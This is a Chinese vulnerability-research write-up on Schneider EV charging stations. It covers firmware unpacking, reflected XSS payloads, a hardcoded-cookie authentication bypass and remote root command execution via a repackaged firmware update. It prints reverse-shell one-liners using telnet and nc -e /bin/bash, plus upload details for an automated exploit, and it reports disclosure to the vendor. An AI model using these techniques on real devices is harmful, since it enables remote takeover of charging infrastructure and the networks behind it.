

---
# 这是页面的图标
icon: token
# 这是文章的标题
title: 施耐德充电桩漏洞挖掘之旅
# 设置作者
author: BaCde
# 设置写作时间
time: 2022-05-10
# 一个页面只能有一个分类
category: 漏洞挖掘
# 一个页面可以有多个标签
tag:
  - 漏洞挖掘
  - 逆向
comment: false
typora-root-url: ..\..\.vuepress\public
---

::: info
本文转自奇安信攻防社区
原文链接：https://forum.butian.net/share/357
:::


大家好，我是BaCde，今天来说一说2020年底针对施耐德充电桩的漏洞挖掘过程。此次挖掘最终实现了通过远程无需用户交互场景下实现Root权限shell获取（一键远程Rootshell获取）。官方已经于今年7月份公布漏洞补丁以及相应的CVE编号。

大家好，我是BaCde，今天来说一说2020年底针对施耐德充电桩的漏洞挖掘过程。此次挖掘最终实现了通过远程无需用户交互场景下实现Root权限shell获取（一键远程Rootshell获取）。官方已经于今年7月份公布漏洞补丁以及相应的CVE编号。

## 0x01 为什么选择施耐德？

作为车联网安全研究来说，充电桩作为车联网必要组成部分，具备实际的研究价值与意义。而面临如此多的品牌，选择哪个目标作为研究对象是面临的第一个问题。为了能够更快的实现我选择了几个衡量指标，包括官方有响应中心、固件可下载、市面上可以买到、互联网上有暴露的目标。分别对应合法性、静态分析、动态测试、漏洞可产生实际的影响。

根据指标通过网络上去收集信息，最终将目标锁定在施耐德。同时，施耐德也在CVE官方的CNA列表中，报送的漏洞可以获得CVE编号。

## 0x02 目标设定

确定了要研究的对象，接下来就要确定一下我们要实现什么样的效果。这可以使得在分析过程中保持聚焦，不偏离方向。目标设定如下：

1. 远程获取设备Root权限
2. 无需登录，无需交互

根据上述设定最直接的方式就是寻找远程命令执行漏洞，即要RCE类型漏洞。

## 0x03 信息收集

一切准备就绪，开始我们的漏洞挖掘之旅。

首先，固件下载地址 https://www.se.com/ww/en/download/document/MFR4341700/ ，下载固件。

当时下载到最新的固件版本为3.3.0.12。固件文件名：MFR4341700.zip，包含升级包，相关说明文档。

解压缩zip包后，主要的升级包是一个后缀名为epk的文件。通过file命令检查，可知为tar压缩格式。

```php
file r7_update_3.3.0.12_d4.epk
r7_update_3.3.0.12_d4.epk: POSIX tar archive (GNU)
```

输入`tar xf r7_update_3.3.0.12_d4.epk`即可对其解压缩。得到如下列表文件：

```php
total 58968
    8 -rw-r--r--@ 1 aliceclaudia  staff    68B  5 29  2020 CONTROL
   16 -rwxr-xr-x@ 1 aliceclaudia  staff   7.4K  5 29  2020 at91sam9g20ek-bootstrap-3.6.11-201612.bin
    8 -rw-r--r--@ 1 aliceclaudia  staff   2.0K  5 29  2020 bspv5_target_pre-update_script.sh
   24 -rwxr-xr-x@ 1 aliceclaudia  staff   9.3K  5 29  2020 bspv5_target_update_script.sh
    8 -rwxr-xr-x@ 1 aliceclaudia  staff   2.2K  5 29  2020 common_bspv4_target_shell_scripts.sh
    8 -rwxr-xr-x@ 1 aliceclaudia  staff   2.4K  5 29  2020 common_bspv5_target_shell_scripts.sh
   24 -rwxr-xr-x@ 1 aliceclaudia  staff    10K  5 29  2020 common_target_shell_scripts.sh
16352 -rw-r--r--@ 1 aliceclaudia  staff   8.0M  5 29  2020 evse_base_jffs2.img
29480 -rw-rw-r--@ 1 aliceclaudia  staff    14M  6 19 10:16 r7_update_3.3.0.12_d4.epk
   24 -rwxr-xr-x@ 1 aliceclaudia  staff    11K  5 29  2020 redLight
    8 -rwxr-xr-x@ 1 aliceclaudia  staff   213B  5 29  2020 run.sh
 1344 -rw-r--r--@ 1 aliceclaudia  staff   672K  5 29  2020 ssh.tgz
    8 -rw-r--r--@ 1 aliceclaudia  staff   4.0K  5 29  2020 u-boot_env-bspv5p5.bin
    8 -rw-r--r--@ 1 aliceclaudia  staff   4.0K  5 29  2020 u-boot_env-bspv5p7.bin
11648 -rw-r--r--@  1 aliceclaudia  staff   5.7M  5 29  2020 uImage.parkingboard_v2_1
```

可以看到有一些shell脚本、bin文件、压缩包，img文件等。逐个查看，可以确定此次的主要目标在`evse_base_jffs2.img`和`uImage.parkingboard_v2_1`。使用binwalk对文件进行识别。可知`uImage.parkingboard_v2_1`为 uImage文件，人口为`0x20008000`，arm的cpu，内核版本为linux-4.4.14。

```php
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             uImage header, header size: 64 bytes, header CRC: 0xDF6A9558, created: 2020-05-29 15:35:56, image size: 5962125 bytes, Data Address: 0x20008000, Entry Point: 0x20008000, data CRC: 0x5835552D, OS: Linux, CPU: ARM, image type: OS Kernel Image, compression type: none, image name: "Linux-4.4.14"
64            0x40            Linux kernel ARM boot executable zImage (little-endian)
2368          0x940           device tree image (dtb)
15092         0x3AF4          device tree image (dtb)
20248         0x4F18          device tree image (dtb)
24496         0x5FB0          gzip compressed data, maximum compression, from Unix, last modified: 1970-01-01 00:00:00 (null date)
5942168       0x5AAB98        device tree image (dtb)
```

其`evse_base_jffs2.img` 文件是JFFS2 filesystem, little endian。除此之外，也可以从其一是文件名中得知一些信息，如处理器为`AT91SAM9G20`，这个处理器是基于ARM926EJ-S处理器，时钟频率为400MHz。可以确定其bootstrap文件，u-boot的环境信息。

[](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-171e283eb9f8c634a560fc92261808d74ddf9071.png)

另外，从解压缩出来的shell脚本中可以分析出大概的分区结构。

```php
/dev/mtdblock1 ssh,备份文件等
/dev/mtdblock2 bootstrap 
/dev/mtdblock4 uboot-env
/dev/mtdblock5 uImage
/dev/mtdblock6 evse_base
```

[](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8362d09b39835aff79ee3471031a608f0d7d121d.png)

分别使用binwalk解`uImage`文件和`evse_base_jffs2.img`文件。可以得到系统文件，与结构，web目录、依赖库、辅助脚本等内容。查看`/etc/shadow`文件，发现采用的是sha512的unix密码，尝试查询和破解，最终无果。

通过分析解压缩出来的文件，还可以确定主要的业务文件都在/mnt/下。

```php
/mnt/datas/             主要存放应用程序、lib文件、一些shell脚本等。
/mnt/flashfs            主要存放配置文件和数据库文件
/mnt/spare              主要存在的是日志文件
```

在web管理界面中，其中的report功能处，可以看到系统的磁盘信息、日志、网络监听端口、内部ip地址等信息。设备开放的端口默认有22、80、502、1500-1504。还可以看到该系统使用到的一些开源软件，如mini_httpd，libmodbus，sqlite等。

[](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-4d4e4691006d5359dd8d4bb3407e47a8a9358681.png)

## 0x04 漏洞挖掘

### 登录入口测试

该系统需要登陆，默认的用户名和密码可以通过官方提供的说明文档进行登录。考虑到修改密码的情况，首先想到的是测试sql注入，很遗憾最终未发现SQL注入，仅发现了反射型xss漏洞。在不同的版本中，利用方式稍有不同。其漏洞远离在于/cgi-bin/cgiserver的worker参数不正确时，会显示错误页面，其页面会将错误的worker参数显示在页面中，并且没有过滤，从而导致存在xss漏洞。

**3.3.0.12之前的的版本payload**

[http://target/cgi-bin/cgiServer?worker=";prompt(1](http://target/cgi-bin/cgiServer?worker=));//

在最新的3.3.0.12版本中对其worker参数中的双引号进行了处理，导致无法闭合而无法利用。但是在登录时，对于一些lang参数没有进行过滤，导致存在xss。另外在登录后对其进行测试可以发现，xss的这个问题普遍存在。但由于是登录后，没有实际具体意义。

**3.3.0.12版本及以前版本**

[http://target/cgi-bin/cgiServer?worker=Login&lang=%22;alert(1](http://target/cgi-bin/cgiServer?worker=Login&lang=";alert(1));//

响应的内容如下:

```html
<html>
<head>
<title>EVSE Web Interface</title>
<meta http-equiv="Content-Type" content="text/html charset=utf-8" >
<meta http-equiv="X-UA-Compatible" content="IE=EDGE; IE=10; IE=9; IE=8; IE=7;" />
</head><body><SCRIPT type="text/javascript">var loc="/cgi-bin/cgiServer?worker=LoginForm";
loc+="&error=badid&lang=";alert(1);//";
document.location.href=loc;
</SCRIPT></body></html>
```

xss漏洞是无法满足设定的目标的，继续分析。

### IDA静态分析

在分析过程中，由于IDA7.2不支持32位程序的伪代码生成功能。最终选择使用是IDA 7.0版本对其进行分析。

加载`cgiserver`程序（文件路径位/mnt/datas/opt/www/cgi-bin/），默认选项即可，在`start`函数，尝试F5显示伪代码，结果没成功。显示`positive sp value has been found`,其主要原因在于栈sp不平衡。解决办法如下：

1. 首先打开栈指针选项，在options--------->General--------------->Disassembly，选择`stack pointer`
2. 这个时候G键跳到出错的`1ADC`的地方，可以看到是个负值，指向它的上一行`alt+k`,改为大于负值，在按F5快捷键即可。

接下来就可以进行愉快的分析了。另外，后续使用IDA7.5分析不存在上述问题。

### 硬编码的token

打开菜单view----->Open subviews----->strings。先大概看一下是否有一些关键的字符串。当然也可以使用strings命令来获取。

在字符串窗口中，使用搜索功能尝试搜索password，token，username等关键词。逐个查看来快速定位关键位置。

在搜索的时候，可以看到不少`snprintf(&s, 0x32u, "%s called (", "instance");` 形如这样的语法，可以猜测该功能是调试用的。很明显这里是显示调用函数的字符串。那么%s就是该函数的名字。

[](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f46dad832209422955d4c9c5e900acf896b2b070.png)

可批量搜索`%s called (` ，然后修改该函数的函数名。根据索索到的结果，可以逐个修改当前代码所在的函数名字。只需要在函数名字上按n即可进行修改。修改函数之后，将对后面的分析带来便利。

[](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-26dafaa474abf37dbed90dd6454f12c3df0109a9.png)

通过通读代码，了解程序的执行逻辑。然后对其单点进行分析，首先将注意力放在了处理session验证的代码块。其代码在`treatRequestInternal`函数内，从名字可以看出是处理内部请求的。

[](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-52898632a5dd72c81ec12088445d50682f357fb7.png)

可以看到该函数首先获取了用户请求中的cookie值，包括SESSIONID、SESSIONTOKEN、CURLTOKEN。在接着往下走，会发现一个判断分支，其中一个分支会判断cookie中的CURLTOKEN是否等于一个固定的字符串，成功会设置v153变量为1。

[](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-3c25d0e522e5df90dd4a2ce441c30791278a164d.png)

在继续向下读代码，另外一个分支则是从表单中获取login和password参数，然后使用TestPassword判断用户名和密码，成功后设置v153变量为1。而调试的信息也显示Loginok，即登录成功字样。说明这里判断登录与上述判断具有同样的效果。通过下文可知v153变量值为1是通过验证的标志。

[](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-af046270514d0c498da4970442bccceff30e0b28.png)

由以上的分析，可以确定存在硬编码的token，我们在请求带上CURLTOKEN即可绕过验证。接下来到实际的web系统中测试，在cookie中带上`CURLTOKN=b35fcdc1ea1***a0131c5a`，在未登录情况下尝试访问一些页面，发现会提示`You are not connected with sufficient privilege worker :SelectTabsModel user :evse`的错误，那么这里就是判断了权限，也可以在上面代码可以看到跟evse相关的地方。上面可以看到v55变量，是获取cookie中的SESSIONID,这个也是我们可以构造的，构造SESSIONID=admin，即可绕过权限认证。实现无需密码进行web系统的管理。事情变得有趣了，这像是一个后门？在分析显示日志功能时，我明白了其原因。在打开report时，并不是由前端调用显示日志的页面，而是后端利用curl来获取的，所以叫CURLTOKEN。这就导致了这个漏洞的产生。

[](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-9e6dbe7f897d3b2ba40dcf0e83fbf2f164be7279.png)

### 升级文件重打包导致的远程命令执行

有了上面的漏洞就可以进行许多管理员操作。这里可以优先寻找存在执行命令的位置，通过快捷键x来寻找调用execv，只有4处调用，3处主要都集中在Install的函数中。查看后发现，程序路径都是写死的，命令执行的路断了。但是在查看其上下文时，发现在执行命令前使用`setenv`设置了环境变量。变量的名字时EPK_KEY。

[](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-c5f63d173de5b3813e3d1dde50812c2098f199cb.png)

下面执行`/mnt/datas/opt/evse/epk-install.sh`文件。升级包的后缀是epk，函数名是Install。很明显升级固件就是这个地方了。如果我们可以构造自己的固件内容，上传恶意文件上去，那么就可以实现系统的控制了。

这里去读`epk-install.sh`文件，来了解epk的处理方式，在`evse_jffs2_base.img`的镜像中找到了这个文件。

通过阅读代码可以了解到其流程，获取传入的文件名，将环境变量中的`EPK_KEY`赋值给`private_key`，然后判断安装的文件是否存在，存在就解压缩文件到一个临时文件夹中，接下来将`private_key`写入到这个临时文件夹中，文件名为`private`。根据这个来计算出一个sha256sum的值写入到`CONTROL2`文件中，比较CONTROL和CONTROL2的内容，，如果一致，执行`run.sh`文件。在之前前会删除掉`private`文件。

[](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0bffc7e9c501b0fe3b72e5a755df0c448d692816.png)

[](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b84f62913dd3452e94a3c8d8306cefae589f4dad.png)
由于CONTROL文件在压缩包中，这个值可控并且计算方式也很简单，这里直接调用命令即可生成。调用的`run.sh`文件也是在升级包中的，这里直接替换`run.sh`文件的内容为我们自己的命令，这样就可以实现任意命令执行了。最后使用tar cf命令打包即可，更新固件即可触发。

[](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f0d3a1042d4ef6a4395bdc23d6ce7e9bc45d228e.png)

按照分析的结果，写入反弹shell的命令到`run.sh`文件中。打包上传更新固件。等待shell出现，但是很遗憾，失败了。这里可能存在几种情况：

1. 升级过程中，设备没有网络;
2. 反弹shell的命令失败。

对于第一种，先修改为curl的请求试试。结果成功执行。说明网络是通的。

[](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-7f5958c23aba33cd947fd89d36d8cb2d896380ff.png)

网络没问题，问题就简单了。更换不同的反弹shell命令试试。换了几种方式失败后，最终通过`telnet ip port1 | /bin/bash | telnet ip port2`成功反弹。真是激动人心的时刻。

这个反弹的原理就是监听两个端口，端口1的连接负责输入命令，端口2的连接接收输出。当然在后续的测试中，这个尽管可以成功，但是还有网络因素导致输出的端口连接失败的情况。但是这里影响不大，可以输入`nc ip port3 -e /bin/bash` 反弹回显端口。

[](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f1654614c139f6adf8743615be8b29d40f8602de.png)

### 一键root之漏洞脚本开发

通过以上两个漏洞，可以实现无需登录的远程命令执行。但是每次输入命令，都比较麻烦。还是写一个脚本来自动化利用。

脚本相对简单，linux系统，使用python的requests库可轻松实现。思路为，抓取固件更新的请求包，生成命令执行的epk文件，利用requests的post方法发送构造的请求。

流程如下图：

[](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0e15ae5b078b0e82740ed43667bf0d3152b64e09.png)

通过抓包确定，发送的url路径为`/cgi-bin/cgiServer?worker=FileDispatcher&nextWorker=FirmwareUpgrade&finalWorker=FirmwareUpgrade&finalIp=内网ip地址&treatOnlyThisStation=yes&uploading=true&longProcessing=true`

这里的内网ip地址，我首先使用127.0.0.1替换，但是，发现这样不行。再次抓包分析，这个ip地址可以通过访问`/cgi-bin/cgiServer?worker=FirmwareUpgradeForm`来获得。使用正则表达式提取即可。

[](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8a713bf513dcbfd2d0fdfdfd1debf5898fcdd00c.png)

这个问题解决后，又出现了第二个问题，就是上传失败。没执行。继续抓包分析，通过对比burp抓的包和reqeusts发送的包进行对比，发现少了content-typ:application/octet-stream。通过设置请求头是无效的。这里要通过`files = {'fichier': ('r7_update_3.3.0.12_d4.epk',open('r7_update_3.3.0.12_d4.epk', 'rb'),"application/octet-stream")}`来设置就可以了。

## 0x05 漏洞影响

### 漏洞影响

1. 用于僵尸网络。
2. 横向渗透企业内部网络、家庭网络。为了确认真实性，通过对其IP地址进行分析，可以发现一些确实有企业在使用该充电桩。

### 可能的利用方式

1. 与汽车进行数据交互，尝试fuzzing可能对汽车造成影响？
2. 控制电压，造成设备故障

## 0x06 漏洞处理

漏洞发现后，以第一时间通报给施耐德官方厂商。并得到其厂商回复与致谢。公告地址：https://download.schneider-electric.com/files?p_Doc_Ref=SEVD-2021-194-06。

[](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-01b2739695894e1df1eb739d7d6d3b108b2dfc01.png)

## 0x07 总结

在前期对其不了解以及缺乏相关知识的情况下，通过边研究边学习来挖掘漏洞。其中耗费了许多精力，也遇到了许多大大小小的问题，过程中有收获。对于充电桩还有很多可以去探索的，大家感兴趣的也都可以在合法情况下进行研究。